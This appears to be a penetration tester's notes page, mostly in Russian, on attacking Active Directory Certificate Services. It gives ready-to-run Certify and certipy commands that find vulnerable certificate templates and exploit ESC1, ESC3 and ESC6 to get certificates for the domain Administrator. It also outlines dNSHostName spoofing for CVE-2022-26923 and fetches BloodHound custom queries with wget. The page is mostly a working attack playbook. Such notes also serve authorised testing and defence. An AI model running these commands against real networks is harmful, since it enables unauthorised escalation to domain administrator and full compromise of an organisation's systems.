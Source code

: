 # AD CS

{% embed url="https://xakep.ru/2022/10/14/active-directory-privesc/" %}

{% embed url="https://hadess.io/pwning-the-domain-ad-cs/" %}

{% embed url="https://docs.google.com/spreadsheets/d/1E5SDC5cwXWz36rPP_TXhhAvTvqz2RGnMYXieu4ZHx64/edit?gid=0#gid=0" %}

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

To **find vulnerable certificate templates** you can run:

```bash
Certify.exe find /vulnerable
certipy find -username john@corp.local -password Passw0rd -dc-ip 172.16.126.128

# quickly spot vulnerable elements
certipy find -u 'user@domain.local' -p 'password' -dc-ip 'DC_IP' -vulnerable -stdout
```

### IF SSL ERROR

`-scheme ldap`



Шаб­лоны сер­тифика­тов хра­нят­ся в сле­дующем кон­тей­нере:

`CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=com`

Со­ответс­твен­но, получить шаб­лоны мож­но при помощи сле­дующей коман­ды PowerShell, исполь­зуя модуль AD:

`PS > Get-ADObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=`



### Certipy + BH

```bash
wget -O ~/.config/bloodhound/customqueries.json https://raw.githubusercontent.com/ly4k/Certipy/main/customqueries.json
```

```bash
$ certipy find 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com
```



### Modifiable SAN. ESC1

Это ата­ка осно­выва­ется на изме­нении парамет­ра SAN, который поз­воля­ет ука­зать аль­тер­натив­ное имя поль­зовате­ля. Это поз­волит нам выпус­тить сер­тификат на дру­гого поль­зовате­ля, даже адми­нис­тра­тора домена. Что­бы ата­ка прош­ла успешно, шаб­лон сер­тифика­та дол­жен иметь уста­нов­ленный флаг `ENROLLEE_SUPPLIES_SUBJECT`.

```bash
$ certipy req 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com -dc-ip 10.11.1.184 -ca CA-contoso -template "1" -alt "administrator@contoso.com"
```



### Any or None Purpose Attack. ESC2

Ес­ли в шаб­лоне сер­тифика­та ука­зан EKU любого наз­начения или вооб­ще отсутс­тву­ет EKU, сер­тификат мож­но исполь­зовать для чего угод­но. Им мож­но зло­упот­реблять, как ESC3, нап­ример исполь­зовать сер­тификат в качес­тве тре­бова­ния для зап­роса дру­гого сер­тифика­та от име­ни любого поль­зовате­ля.



### Enrollment Agent. ESC3

В [до­кумен­тации Microsoft](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cersod/97f47d4c-2901-41fa-9616-96b94e1b5435) ука­зано, что EKU Certificate Request Agent может исполь­зовать­ся, что­бы выдать себя за дру­гого поль­зовате­ля, и поз­воля­ет выпус­тить сер­тификат, который может быть исполь­зован для сов­мес­тной под­писи зап­росов от име­ни любого поль­зовате­ля для любого шаб­лона.

```bash
$ certipy req 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com -ca CA-contoso -template Agent
```

Пос­ле того как мы получи­ли обыч­ного поль­зовате­ля, зап­росим сер­тификат, пред­ста­вив­шись дру­гим поль­зовате­лем.

```bash
$ certipy req 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com -ca CA-contoso -template User -on-behalf-of 'contoso\Administrator' -pfx kent.jill.pfx
```



### **(EDITF\_ATTRIBUTESUBJECTALTNAME2). ESC6**

`EDITF_ATTRIBUTESUBJECTALTNAME2` Этот флаг поз­воля­ет ука­зать про­изволь­ный SAN (Subject Alternative Name) для всех сер­тифика­тов, нес­мотря на кон­фигура­цию шаб­лона сер­тифика­та.

```bash
$ certipy req 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com -template <Любой шаблон> -ca CA-contoso -alt administrator@contoso.com
```



### dNSHostName Spoofing

Пол­ный флоу ата­ки выг­лядит сле­дующим обра­зом:

1. Соз­дание компь­юте­ра в домене с `dNSHostName`, соот­ветс­тву­ющим DNS-име­ни кон­трол­лера домена.
2. За­мена SPN.
3. Зап­рос сер­тифика­та для компь­юте­ра.

**как про­верить, уяз­вим ли кон­трол­лер домена к CVE-2022-26923? Глав­ным приз­наком уяз­вимос­ти слу­жит наличие SID в отве­те на зап­рос сер­тифика­та. Если он есть — патч в сис­теме при­сутс­тву­ет, если нет, то пат­ча тоже нет.**



### Using cert without PKINIT

{% embed url="https://authlive.sblogistica.ru/" %}
